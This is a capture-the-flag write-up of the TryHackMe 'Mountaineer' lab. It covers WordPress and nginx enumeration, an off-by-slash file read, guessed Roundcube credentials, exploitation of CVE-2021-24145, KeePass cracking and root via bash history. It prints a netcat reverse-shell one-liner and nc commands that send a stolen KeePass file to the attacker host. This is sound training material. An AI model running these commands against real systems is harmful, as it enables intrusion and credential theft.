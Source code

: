 # TryHackMe: Mountaineer
![room_image](https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377695513)
---

Mountaineer was an interesting box that started with discovering a WordPress instance running a plugin vulnerable to authenticated RCE. Using the nginx off-by-slash vulnerability, I was able to read files on the server, which revealed a vhost hosting Roundcube. By logging into Roundcube with guessable credentials, I found WordPress creds and some user info. Using the creds, I exploited the vulnerable plugin to get a shell as `www-data`.

Later, I found a KeePass database belonging to a user I had info on. By generating a targeted wordlist, I cracked the master password for the database, which gave me creds for another user. Checking their bash history revealed the `root` password, allowing me to complete the room.

Finally, I’ve also documented how the nginx off-by-slash vuln can be combined with WordPress password reset to gain a foothold.

---

## Room Link

[TryHackMe Mountaineer](https://tryhackme.com/room/mountaineerlinux)

---

## Initial Enumeration

### Nmap

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.146.154
```

**Ports open:**

* 22 (SSH)
* 80 (HTTP)

Visiting `http://10.10.146.154` showed the default nginx page.

---

## Shell as www-data

### Enumerating WordPress

Using `ffuf`, I found `/wordpress/`:

```bash
ffuf -u 'http://10.10.146.154/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -t 100 -ic -fs 162
```

Since resources loaded under `mountaineer.thm`, I added:

```
10.10.146.154 mountaineer.thm
```

to `/etc/hosts`.

---

### WPScan Enumeration

```bash
wpscan --url http://mountaineer.thm/wordpress/ -e ap,vt,tt,cb,dbe,u,m
```

**Users discovered:**

* admin
* everest
* montblanc
* chooyu
* k2

**Plugin discovered:**

* Modern Events Calendar Lite 5.16.2

**Vulnerabilities:**

* CVE-2021-24946 (unauth blind SQLi, not useful for creds)
* CVE-2021-24145 (auth RCE via arbitrary file upload)

---

## Nginx Off-By-Slash

Fuzzing `/wordpress/` revealed `/wordpress/images/`, which was exploitable via:

```
/wordpress/images../.
```

to read server files. Extracted:

* `adminroundcubemail.mountaineer.thm`

Added to hosts:

```
10.10.146.154 adminroundcubemail.mountaineer.thm
```

---

## Roundcube Access

Navigated to `http://adminroundcubemail.mountaineer.thm` and brute-forced weak creds. Logged in using:

```
k2:k2
```

* Found password in inbox
* Found `lhotse` user info in sent items

---

## Exploiting CVE-2021-24145

Logged into WordPress as `k2`, used:

```bash
wget https://raw.githubusercontent.com/Hacker5preme/Exploits/refs/heads/main/Wordpress/CVE-2021-24145/exploit.py
python3 exploit.py -T mountaineer.thm -P 80 -U /wordpress/ -u k2 -p <password>
```

Confirmed shell upload:

```
http://mountaineer.thm/wordpress/wp-content/uploads/shell.php
```

Got reverse shell as `www-data`:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <my-ip> 443 >/tmp/f
```

---

## Shell as kangchenjunga

### Finding KeePass Database

Found `Backup.kdbx` in `/home/lhotse/`, readable by `www-data`. Transferred via:

```bash
nc -lvnp 444 > Backup.kdbx
nc <my-ip> 444 < /home/lhotse/Backup.kdbx
```

---

### Cracking KeePass

Generated hash:

```bash
keepass2john Backup.kdbx > keepass_hash
```

Default lists failed, so generated targeted wordlist using `cupp`:

```bash
cupp -i
```

Cracked using:

```bash
john keepass_hash --wordlist=mount.txt
```

Recovered master password, opened in `kpcli`, retrieved `kangchenjunga` creds.

---

### SSH Access

```bash
ssh kangchenjunga@mountaineer.thm
```

Found first flag:

```
/home/kangchenjunga/local.txt
```

---

## Root Access

### Checking Bash History

Found note in `mynotes.txt` that root used this user’s account. `.bash_history` contained:

```
suroot
<root-password>
```

Switched to root:

```bash
su - root
```

Read final flag:

```
/root/root.txt
```

---

## Alternative Foothold: Password Reset + Off-By-Slash

1. Use **WordPress password reset** for `admin`.
2. Exploit nginx off-by-slash to read `/var/mail/www-data` and get the reset link.
3. Reset admin password.
4. Use CVE-2021-24145 or plugin upload to get `www-data` shell.


